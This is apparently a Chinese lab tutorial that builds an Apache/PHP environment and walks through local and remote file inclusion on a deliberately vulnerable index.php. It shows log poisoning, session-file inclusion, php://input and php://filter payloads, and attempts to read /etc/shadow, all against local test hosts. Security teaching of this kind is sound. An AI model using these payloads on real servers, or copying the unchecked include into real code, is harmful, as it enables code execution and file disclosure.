# 测试文件包含漏洞  

只需要安装`apache`和`php`就可以了


# 环境启动方式

* docker-compose build
* docker-compose up -d

# 登陆环境  

ssh root@127.0.0.1 -p 10000
密码root

# 源码编译环境  

### 下载源码包  
[The Apache HTTP Server Project](https://httpd.apache.org/)

### 官方文档

[Apache HTTP Server Documentation](https://httpd.apache.org/docs/)

## 编译和安装

```
tar xvf httpd-NN.tar
cd httpd-NN
./configure --prefix=/usr/local/apache2 ///usr/local/apache2是路径
make
make install
vi PREFIX/conf/httpd.conf
PREFIX/bin/apachectl -k start
```

### 相关文档  

[Extract、Configure、Compile、Install、Customize、Test](https://httpd.apache.org/docs/2.4/install.html)   

### 安装依赖  

[APR and APR-Util](http://apr.apache.org/)

```
cd /attachment/
tar xf httpd-2.4.33.tar
cd httpd-2.4.33
tar xzf ../apr-1.6.3.tar.gz -C srclib/
mv srclib/apr-1.6.3 srclib/apr
cd srclib/apr/
./buildconf
./configure
make && make install  

cd -
tar xzf ../apr-util-1.6.1.tar.gz -C srclib/
mv srclib/apr-util-1.6.1 srclib/apr-util
cd srclib/apr-util/
./configure --with-apr=/usr/local/apr/
make && make install
cd -
```

[PCRE](http://www.pcre.org/)

```
tar xf ../pcre-8.42.tar.gz
cd ../pcre-8.42
./configure --prefix=/usr/local/pcre
make && make install
```

设置httpd

```
./configure --prefix=/usr/local/apache2 --enable-modules=all --enable-mods-shared=all --enable-mods-static=all --enable-session --enable-session-cookie --with-apr=/usr/local/apr/ --with-apr-util=/usr/local/apr/ --with-pcre=/usr/local/pcre/
```

```
configure: summary of build options:

    Server Version: 2.4.33
    Install prefix: /usr/local/apache2
    C compiler:     gcc -std=gnu99
    CFLAGS:          -g -O2 -pthread  
    CPPFLAGS:        -DLINUX -D_REENTRANT -D_GNU_SOURCE  
    LDFLAGS:           
    LIBS:             
    C preprocessor: gcc -E

```


安装httpd  

```
make && make install
```

### 自定义  

```
vim /usr/local/apache2/conf/httpd.conf
```

107行加上
`ServerName 127.0.0.1:80`  

再把下面的`DocumentRoot`改成下图  



### 测试  

`/usr/local/apache2/bin/apachectl -k start`  

浏览器访问  

  

`/usr/local/apache2/bin/apachectl -k stop`  

这个时候还是不支持php解析的  


## 编译安装PHP

```
./configure --prefix=/usr/local/php7 --with-apxs2=/usr/local/apache2/bin/apxs
```  

  

```
make && make install
```

```
Build complete.
Don't forget to run 'make test'.

Installing PHP SAPI module:       apache2handler
/usr/local/apache2/build/instdso.sh SH_LIBTOOL='/usr/local/apr/build-1/libtool' libphp7.la /usr/local/apache2/modules
/usr/local/apr/build-1/libtool --mode=install install libphp7.la /usr/local/apache2/modules/
libtool: install: install .libs/libphp7.so /usr/local/apache2/modules/libphp7.so
libtool: install: install .libs/libphp7.lai /usr/local/apache2/modules/libphp7.la
libtool: install: warning: remember to run `libtool --finish /attachment/php-7.2.4/libs'
chmod 755 /usr/local/apache2/modules/libphp7.so
[activating module `php7' in /usr/local/apache2/conf/httpd.conf]
Installing shared extensions:     /usr/local/php7/lib/php/extensions/no-debug-zts-20170718/
Installing PHP CLI binary:        /usr/local/php7/bin/
Installing PHP CLI man page:      /usr/local/php7/php/man/man1/
Installing phpdbg binary:         /usr/local/php7/bin/
Installing phpdbg man page:       /usr/local/php7/php/man/man1/
Installing PHP CGI binary:        /usr/local/php7/bin/
Installing PHP CGI man page:      /usr/local/php7/php/man/man1/
Installing build environment:     /usr/local/php7/lib/php/build/
Installing header files:          /usr/local/php7/include/php/
Installing helper programs:       /usr/local/php7/bin/
  program: phpize
  program: php-config
Installing man pages:             /usr/local/php7/php/man/man1/
  page: phpize.1
  page: php-config.1
Installing PEAR environment:      /usr/local/php7/lib/php/
[PEAR] Archive_Tar    - installed: 1.4.3
[PEAR] Console_Getopt - installed: 1.4.1
[PEAR] Structures_Graph- installed: 1.1.1
[PEAR] XML_Util       - installed: 1.4.2
[PEAR] PEAR           - installed: 1.10.5
Wrote PEAR system config file at: /usr/local/php7/etc/pear.conf
You may want to add: /usr/local/php7/lib/php to your php.ini include_path
/attachment/php-7.2.4/build/shtool install -c ext/phar/phar.phar /usr/local/php7/bin
ln -s -f phar.phar /usr/local/php7/bin/phar
Installing PDO headers:           /usr/local/php7/include/php/ext/pdo/
```

## 配置APACHE支持PHP  

### 配置php.ini  

`cp php.ini-development /usr/local/php7/lib/php.ini`

### 配置httpd.conf

#### 编辑 httpd.conf 文件以调用 PHP 模块

确保`LoadModule php7_module        modules/libphp7.so`在你的`httpd.conf`文件里面  

告知 Apache 将特定的扩展名解析成 PHP，例如，让 Apache 将扩展名 .php 解析成 PHP。为了避免潜在的危险，例如上传或者创建类似 exploit.php.jpg 的文件并被当做 PHP 执行，我们不再使用 Apache 的 AddType 指令来设置。参考下面的例子，你可以简单的将需要的扩展名解释为 PHP。我们演示为增加.php。   

```
<FilesMatch \.php$>
    SetHandler application/x-httpd-php
</FilesMatch>
```

默认首页改成index.php

```
<IfModule dir_module>
    DirectoryIndex index.php
</IfModule>
```


重启apache  

`/usr/local/apache2/bin/apachectl -k restart`  

访问`http://127.0.0.1:8099/index.php`

  

或者，你也想将 .php，.php2，.php3，.php4，.php5，.php6，以及 .phtml 文件都当做 PHP 来运行，我们无需额外的设置，仅需按照下面这样来：   

```
<FilesMatch "\.ph(p[2-6]?|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```  

然后，可以将 .phps 文件由 PHP 源码过滤器处理，使得其在显示时可以高亮源码，设置如下：

```
<FilesMatch "\.phps$">
    SetHandler application/x-httpd-php-source
</FilesMatch>
```

### 更改环境变量  

`.bashrc`加上`export PATH="$PATH:/usr/local/apache2/bin:/usr/local/php7/bin"`

```
[root@b19f05cf6eb3 local]# cat ~/.bashrc
# .bashrc

# User specific aliases and functions

alias rm='rm -i'
alias cp='cp -i'
alias mv='mv -i'

# Source global definitions
if [ -f /etc/bashrc ]; then
	. /etc/bashrc
fi

export PATH="$PATH:/usr/local/apache2/bin:/usr/local/php7/bin"
[root@b19f05cf6eb3 local]# . ~/.bashrc
[root@b19f05cf6eb3 local]# echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin:/root/bin:/usr/local/apache2/bin:/usr/local/apache2/bin:/usr/local/php7/bin:/usr/local/apache2/bin:/usr/local/php7/bin
[root@b19f05cf6eb3 local]# php -v
PHP 7.2.4 (cli) (built: Apr 12 2018 07:22:16) ( ZTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
```

**到此为止，初步的环境已经搭建好了**  

## 文件包含漏洞  

产生原因:通过引入文件时，用户可控，没有严格的检验，或是被绕过，操作一些敏感文件，导致文件泄露和恶意代码注入   

当包含文件在服务器本地上，就形成本地文件包含，当包含的文件在第三方服务器是，就形成可远程文件包含。  

### 自定义漏洞代码

index.php
```php
<?php  
$file1 = $_GET['lfi'];
if (isset($file1)) {
	include $file1;
}else{
	header('Location: ?lfi=123.txt');
}
?>
```

123.txt
```php  
<?php echo '123';?>
```  

### 包含文件的函数  

**include()、include_once()、require()、require_once()**  

##### include  

(PHP 4, PHP 5, PHP 7)

include 语句包含并运行指定文件。

以下文档也适用于 require

 被包含文件先按参数给出的路径寻找，如果没有给出目录（只有文件名）时则按照 include_path 指定的目录寻找。如果在 include_path 下没找到该文件则 include 最后才在调用脚本文件所在的目录和当前工作目录下寻找。如果最后仍未找到文件则 include 结构会发出一条警告；这一点和 require 不同，后者会发出一个致命错误,脚本中止。

如果定义了路径——不管是绝对路径（在 Windows 下以盘符或者 \ 开头，在 Unix/Linux 下以 / 开头）还是当前目录的相对路径（以 . 或者 .. 开头）——include_path 都会被完全忽略。例如一个文件以 ../ 开头，则解析器会在当前目录的父目录下寻找该文件。

有关 PHP 怎样处理包含文件和包含路径的更多信息参见 include_path 部分的文档。

当一个文件被包含时，其中所包含的代码继承了 include 所在行的变量范围。从该处开始，调用文件在该行处可用的任何变量在被调用的文件中也都可用。不过所有在包含文件中定义的函数和类都具有全局作用域。

这几个函数只关心文件的内容，如果文件内容包含`<?php ..... ?>`，它们就会把被包含的内容当作`php`去解析  


### 远程文件包含和本地文件包含的配置区别  

php.ini配置文件中allow_url_include（这里的php7默认关闭）allow_url_fopen（默认开启）  

`vim /usr/local/php7/lib/php.ini`



allow_url_fopen开启

允许类似（http:// 和 ftp://）这样的当作文件

allow_url_include开启  

允许函数(include和require)去打开类似（http:// 和 ftp://）这样的文件  

也就是说两个都关闭，只能本地包含，两个都打开才能远程包含。

默认情况下：`allow_url_include Off`、`allow_url_fopen On`   

本地包含OK



远程包含不OK



都关闭：`allow_url_include Off`、`allow_url_fopen Off`

跟上面的效果是一样的  


都开启：`allow_url_include On`、`allow_url_fopen On`

远程包含、本地包含都可以  

`http://127.0.0.1:8099/?lfi=123.txt`

`http://127.0.0.1:8099/?lfi=http://10.101.177.100:8099/123.txt`

`http://127.0.0.1:8099/?lfi=http://127.0.0.1/123.txt`(跟第一个一个道理)  

这三种都是可以的，可见远程文件包含危害比较大  


### 本地文件包含利用  

跟案例一样，可以上传一个`xxx.txt、图片、xxxx`,但是它的内容是带有php标签的内容，就可以被执行。  

上传要看程序，大多数时候会有限制文件类型、后缀名等  

#### 本地包含有哪些可能  

* 上传可上传的文件结合包含GETSHELL  
* 包含日志文件GETSHELL

首先在/tmp目录下创建一个文件tmp

tmp
```
<?php phpinfo();?>
```



可以被执行`http://127.0.0.1:8099/?lfi=/tmp/tmp`



`http://127.0.0.1:8099/?lfi=/etc/shadow`显示`Permission denied`



那就是说被包含文件必须至少是可读的，才可以读文件。

那么现在查看一下日志文件在哪和格式是什么样子  

`/usr/local/apache2/logs/access_log`



访问`http://127.0.0.1:8099/?lfi=<?php phpinfo();?>`再看看日志



发现'<>'都被编码了，这可能是浏览器对某些字符的处理，也就是进行了url编码操作。虽然服务器会解码，但这里应该是没有解码的时候就记录下来了。  

那么现在我们尝试`curl 'http://127.0.0.1:8099/?lfi=<?php phpinfo();?>'`

  

查看日志  



包含日志`http://127.0.0.1:8099/?lfi=/usr/local/apache2/logs/access_log`



`不同的目标的日志文件的位置可能不一样`  

再看看分别用浏览器和curl访问后的错误日志文件的内容`error_log`

```
[root@b19f05cf6eb3 logs]# tail -2 error_log
[Fri Apr 13 01:32:53.857953 2018] [php7:warn] [pid 13889:tid 140607540348672] [client 172.19.0.1:39136] PHP Warning:  include(&lt;?php phpinfo();?&gt;): failed to open stream: No such file or directory in /var/www/html/index.php on line 4
[Fri Apr 13 01:32:53.858020 2018] [php7:warn] [pid 13889:tid 140607540348672] [client 172.19.0.1:39136] PHP Warning:  include(): Failed opening '&lt;?php phpinfo();?&gt;' for inclusion (include_path='.:/usr/local/php7/lib/php') in /var/www/html/index.php on line 4
```

可见符号`<>`都被转义了，不能利用

* 包含/proc/self/environ getshell

显然这个方法是不行的，权限不足，另外据我我的没用到cgi?，他的格式也没有像网上说的那样?  



```
[root@b19f05cf6eb3 self]# cat environ
LC_MEASUREMENT=zh_CN.UTF-8LC_PAPER=zh_CN.UTF-8LC_MONETARY=zh_CN.UTF-8LANG=en_US.UTF-8LC_NAME=zh_CN.UTF-8LC_ADDRESS=zh_CN.UTF-8LC_NUMERIC=zh_CN.UTF-8LC_TELEPHONE=zh_CN.UTF-8LC_IDENTIFICATION=zh_CN.UTF-8LC_TIME=zh_CN.UTF-8USER=rootLOGNAME=rootHOME=/rootPATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/binMAIL=/var/mail/rootSHELL=/bin/bashSSH_CLIENT=172.19.0.1 51494 22SSH_CONNECTION=172.19.0.1 51494 172.19.0.2 22SSH_TTY=/dev/pts/0TERM=xterm-256color
```

* 临时文件sess_.....  

index.php
```php
<?php  
session_start();
$p1 = $_POST['p1'];
$_SESSION['p1'] = $p1;


$file1 = $_GET['lfi'];
if (isset($file1)) {
	include $file1;
}else{
	header('Location: ?lfi=123.txt');
}
?>
```

POST请求`p1=<?php phpinfo();?>`  



`bhvvstmq3slmt8uej53plp7kbl`是COOKIE值在服务器上面的命名默认是`sess_bhvvstmq3slmt8uej53plp7kbl`

```
[root@b19f05cf6eb3 tmp]# cat sess_bhvvstmq3slmt8uej53plp7kbl
p1|s:18:"<?php phpinfo();?>";
```

访问`http://127.0.0.1:8099/?lfi=/tmp/sess_bhvvstmq3slmt8uej53plp7kbl`  



注意这里的POST最好一直保持

* 利用协议和封装协议  

此部分测试`allow_url_include On`、`allow_url_fopen On`

[协议官方文档](http://php.net/manual/zh/wrappers.php)

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。

详情看官方文档，

测试`php://input`  

index.php
```php
<?php include 'php://input';?>
```

然后用hackbar发送POST数据包`<?php phpinfo();?>`  



index.php
```php
<?php
$a = 'php://input';
echo "$a" . '<br />';
$b = file_get_contents($a);
var_dump($b);
include($a);
?>
```

然后用hackbar发送POST数据包`<?php phpinfo();?>`



第一个`echo`是直接输出`php://input`的，后面两个函数是把POST的数据替换`php://input`，也就是前面说的某些函数支持`http://`形式的数据读取。这个时候`php://input`我理解就是一个变量，但是这个变量的内容又不是字符串。因为直接`include('<?php phpinfo();?>')`是报错的  

测试`php://filter`  

`php://filter/convert.base64-encode/resource=filename`  

index.php
```php
<?php $a = $_GET['a']; include($a);?>
```

访问`http://127.0.0.1:8099/?a=php://filter/convert.base64-encode/resource=index.php`  

